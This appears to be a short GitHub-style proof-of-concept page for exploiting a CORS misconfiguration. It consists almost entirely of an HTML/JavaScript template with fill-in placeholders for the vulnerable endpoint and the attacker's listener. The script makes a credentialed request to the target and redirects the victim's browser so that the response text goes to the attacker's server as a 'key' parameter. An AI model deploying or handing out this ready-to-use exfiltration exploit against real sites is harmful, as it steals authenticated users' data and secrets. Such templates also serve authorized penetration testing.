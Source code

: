 
`{ENDPOINT}` - Vulnerable endpoint address<br>
`{My_Server}` - Collaborator/Listener address

```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <script>
      function submitRequest()
      {
        var req = new XMLHttpRequest();
        req.onload = reqListener;
        req.open('get','{ENDPOINT}',true);
        req.withCredentials = true;
        req.send();

        function reqListener() {
        location='{My_Server}/exploit?key='+this.responseText;
};
      }
      submitRequest();
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
  </body>
</html>
```
